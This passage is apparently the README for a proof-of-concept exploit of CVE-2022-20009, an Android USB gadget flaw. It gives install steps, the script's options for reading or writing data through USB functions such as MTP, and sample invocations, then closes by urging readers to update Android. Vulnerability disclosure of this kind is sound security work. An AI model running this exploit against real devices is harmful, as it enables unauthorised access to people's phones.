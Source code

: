 The gadget.py script requires pyusb. You can install this package via pip as below.

> python3 -m pip install pyusb

Help can be accessed with -h or --help parameters.

```
usage: gadget.py [-h] -v VID -p PID [-l LENGTH] [-d {read,write}] [-f {accessory,audio_source,gsi,qc_rndis,rmnet,mtp}]

Sample exploit for CVE-2022-20009

optional arguments:
  -h, --help            show this help message and exit
  -v VID, --vid VID     vendor id
  -p PID, --pid PID     product id
  -l LENGTH, --length LENGTH
                        lenght of data to write
  -d {read,write}, --direction {read,write}
                        direction of operation from host perspective
  -f {accessory,audio_source,gsi,qc_rndis,rmnet,mtp}, --function {accessory,audio_source,gsi,qc_rndis,rmnet,mtp}
```

Example invocations:
```
./gadget.py -v 0x1b67 -p 0x400c -f audio_source
./gadget.py -v 0x18d1 -p 0x4e23 -f mtp
```

## Final notes

Please update your Android to the latest stable version.

